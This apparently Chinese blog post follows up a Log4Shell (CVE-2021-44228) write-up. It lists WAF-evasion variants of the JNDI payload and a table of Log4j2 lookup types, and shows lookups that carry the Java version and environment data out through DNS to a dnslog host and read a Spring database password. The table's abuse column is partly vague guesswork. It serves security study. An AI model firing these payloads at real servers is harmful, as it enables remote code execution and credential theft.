

本篇是上一篇的续篇，主要是对上一篇中的额外内容进行补充

上一篇地址：[log4j2 变量注入漏洞(CVE-2021-44228)](https://www.cnblogs.com/erosion2020/p/18583981)

## 漏洞绕过

这里主要补充一下知道服务可以触发log4j2漏洞，但是漏洞无法被利用的情况，然后罗列了一些常见的绕过方法。

### 绕过WAF防御

有的WAF在漏洞出现后针对提出 `${` 、`jndi`、`ldap`、`rmi` 等关键词规则的防护。但研究后发现都会存在被绕过问题。比如上次我们分析的payload是这样的：

> ```
> ${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}
> ```

在WAF中这样的参数就会被拦截，然后这里总结了一下网上师傅们给出来的其他绕过payload:

```
${${a:-j}ndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${a:-j}n${::-d}i:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:jn}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```


### 协议总结

log4j2中其实支持了很多种关键字协议，比如：

{date, ctx, lower, upper, main, env, sys, sd, java, marker, jndi, jvmrunargs, event, bundle, map, log4j}

以下是一个简化版的表格，列出了 Log4j 2.x 常见的协议类型及其含义：

| 协议类型       | 描述                                             | 可能的漏洞利用方式                            |
| -------------- | ------------------------------------------------ | --------------------------------------------- |
| **date**       | 格式化当前日期和时间                             | 攻击者通过控制日期格式影响日志显示或隐藏信息  |
| **ctx**        | 上下文信息（日志事件相关的元数据）               | 控制上下文信息，可能触发恶意日志格式化操作    |
| **lower**      | 转换为小写                                       | 可以用来绕过大小写敏感的过滤或安全检查        |
| **upper**      | 转换为大写                                       | 同 `lower`，绕过大小写检查                    |
| **main**       | 主日志记录器，控制大部分日志记录行为             | 控制主日志记录器，可能影响日志行为            |
| **env**        | 环境变量（如 `JAVA_HOME`、`PATH`）               | 通过环境变量注入恶意信息或改变日志行为        |
| **sys**        | 访问系统属性（如 `os.name`, `user.home`）        | 操控系统属性进行恶意注入或信息泄露            |
| **sd**         | 自定义诊断信息                                   | 通过操控诊断信息注入恶意内容，触发攻击        |
| **java**       | 引用 Java 类和对象，可能触发 RCE                 | 可能导致恶意 Java 类加载，引发远程代码执行    |
| **marker**     | 日志事件的标记，帮助筛选日志                     | 控制日志标记，影响日志筛选或行为              |
| **jvmrunargs** | JVM 启动参数，影响 JVM 启动时的配置              | 攻击者操控 JVM 启动参数，可能绕过安全机制     |
| **event**      | 捕获特定的日志事件，通常用于事件数据处理         | 通过操控日志事件，注入恶意代码                |
| **bundle**     | 与 Java Bundle 相关，涉及打包信息                | 通过操控打包信息注入恶意代码，可能触发攻击    |
| **map**        | 键值对，可能与应用配置或参数传递相关             | 操控 Map 中的键值对注入恶意数据，影响日志行为 |
| **log4j**      | Log4j 内置的功能，涉及日志库的配置和操作         | 可能利用 Log4j 配置或格式化漏洞触发攻击       |
| **jndi**       | JNDI 协议（Java Naming and Directory Interface） | 利用 JNDI 查找触发远程代码执行 (RCE) 漏洞     |

github上有个师傅给了很详细的有用信息和针对这些变量的利用方式：https://github.com/jas502n/Log4j2-CVE-2021-44228

### 信息泄露

这里总结一下大致的利用手法，然后写几个利用漏洞来泄露信息的示例。

1. 泄露Java版本：通过嵌套标签携带信息出来，Log4j2是在substitute方法中递归解析表达式，所以可以利用这种嵌套标签，从内到外获取{}中的内容，然后分配给对应的Lookup做解析，获得信息后通过Dnslog带出

   可以看到这个过程其实是解析出了java的版本，然后尝试去访问了ldap://1.8.0_131.47pdsv.dnslog.cn，虽然本地报错了(访问肯定是错的，因为根本就不匹配)，但是在DNS访问记录中却记录了这一次的访问。

> ${jndi:ldap://${sys:java.version}.47pdsv.dnslog.cn}


2. 泄露操作系统版本

   通过env和sys协议，可以读取到一些环境变量和系统变量，以及Hostname等相关信息。

> ${jndi:ldap://${env:os}.47pdsv.dnslog.cn}



3. bundle(别的师傅写的)

在浅蓝师傅的文章中提到的一种特殊`Lookup`，源码的`BundleLookup`核心内容如下

```
public String lookup(final LogEvent event, final String key) {
    ...
    final String bundleName = keys[0];
    final String bundleKey = keys[1];
    ...
    return ResourceBundle.getBundle(bundleName).getString(bundleKey);
}
```

在通常情况下这个`ResourceBundle`被用来做国际化，网站通常会给一段表述的内容翻译成多种语言。在`SpringBoot`下可能会获取到关键信息，将会比`Sys`和`Env`更严重，但这种情况略显鸡肋，需要手动排除`SpringBoot`自带的日志依赖并加入`Log4j2`的依赖（这种情况可能不多）

通过`${bundle:application:spring.datasource.password}`可以直接拿到数据库密码。

